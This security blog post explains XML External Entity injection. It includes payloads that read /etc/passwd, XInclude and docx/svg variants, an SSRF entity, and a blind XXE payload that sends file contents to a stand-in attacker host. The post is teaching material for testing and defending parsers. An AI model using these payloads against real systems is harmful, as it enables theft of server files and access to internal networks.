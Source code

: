+++
title = "XXE"
description = ""
type = ["posts","post"]
tags = [
    "web",
    "infosec",
]
date = "2021-06-07"
categories = [
    "web",
    "infosec",
]
series = ["web"]
[ author ]
  name = "Quac Tran"
+++
* [What is XXE](#what-is-xxe)
* [Types of XXE attacks](#types-of-xxe-attacks)
    * [XXE To retrieve files](#xxe-to-retrieve-files)
        * [Example](#example)
        * [XXE through the XInclude tag](#xxe-through-the-xinclude-tag)
        * [Exploiting XXE using SVG Files or docx files or xlsx files](#exploiting-xxe-using-svg-files-or-docx-files-or-xlsx-files)
    * [XXE Into SSRF](#xxe-into-ssrf)
    * [Blind XXE](#blind-xxe)
* [Note](#note)
* [References](#references)
## What is XXE
XXE = XML eXternal Entities

XXE can occur when XML documents get parsed. We traditionally think of XXE vulnerabilities as uploading an XML file that includes an external entity, an example of this would be:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```
We might be able to upload this file if we save it as .xml into an application that process XML files but what some people don't know is that some other file types consist of XML files. 
## Types of XXE attacks
XXE can be abused to perform several types of attacks. It can even be chained into things like SSRF.
* XXE to retrieve files
* XXE to perform SSRF
* Blind XXE
### XXE To retrieve files
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<product>&xxe;</product>
<adress>&xxe;</adress>
```
In this example we first define the document type and in there we define a new Entity called "XXE". This entity is made to execute a system call. This can be anything like ls, a reverse shell or in this case a file inclusion. It will grab the /etc/passwd file.
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
Next we will display that entity xxe into every possible field of our XML file. It's very important to insert your XXE entity into every single XML element. Any of them can be vulnerable as the developer has to filter ALL the fields indivually.\
#### Example
Request
![retrieve_file_1.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/retrieve_file_1.PNG)
![retrieve_file_2.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/retrieve_file_2.PNG)
From here, we can modify the XML data to add in an XXE to request the file we wish to target.
![retrieve_file_3.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/retrieve_file_3.PNG)
Response
![retrieve_file_4.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/retrieve_file_4.PNG)
#### XXE through the XInclude tag
Often, an attacker does not have full control over the XML data, but has control over an input passed into the data. In these cases, they can’t inject an entity before the XML parameters, which makes it appear impossible to conduct XXE attacks. Often however, it is possible to do a XXE attack with just access to a single parameter, using the XInclude feature of XML.\
XInclude can be thought of as a way of including another XML document within an existing one. Using this feature, we can include a XML component that defines our external entity, and use that to leak data from the server. In this situation, the data sent from the client includes only the parameters required to add to the XML.
![xinclude1.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/xinclude1.PNG)
To setup the XInclude, we need to inject data into the product ID parameter. The payload will look like below.
![xinclude2.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/xinclude2.PNG)
Without all of the encoding, the payload is:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
#### Exploiting XXE using SVG Files or docx files or xlsx files
Gen docx file with python
![docx1.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/docx1.PNG)
A Docx file is mostly just zipped up xml files. We need to unzip the resume.docx file and modify the contents in “word/document.xml”. Then, save our changes back to resume.docx.
![docx2.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/docx2.PNG)
Two modifications are needed in document.xml.
```xml
<!DOCTYPE test [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
```
![docx4.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/docx4.PNG)
You can do the same with xlsx and svg
![svg.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/svg.PNG)
### XXE Into SSRF
A SSRF attack allows an attacker to perform server-side request forgery. This basically means that the attacker can make HTTP requests to any URL the server can access. This means that they can access URLs that they typically don’t have permission to access, which could potentially leak data.
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM
"http://intranet.cheeseshop.com"> ]>
```
### Blind XXE
The majority of XXE vulnerabilities in the wild will be blind XXE attacks. To detect these we can use an out of band webserver that we host ourselves and make the target do a callback to our server using the same technique we used previously in XXE into SSRF.
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com">
]>
```
If we detect blind XXE, we can exfiltrate data via OAST
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://webattacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
Our first entity will grab the data file /etc/passwd and our second entity will make a callback to our server with the contents of the /etc/passwd file in a get parameter.

## Note
Alway check file upload can inject xml
* profile pictures (.svg)
* banners (.svg)
* photo albums (.svg)
* XML imports (.xml)
* DOCX/XLSX imports (.docx/.xlsx)
* SOAP requests
* ...

## References

-[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)\
-[https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/](https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/)


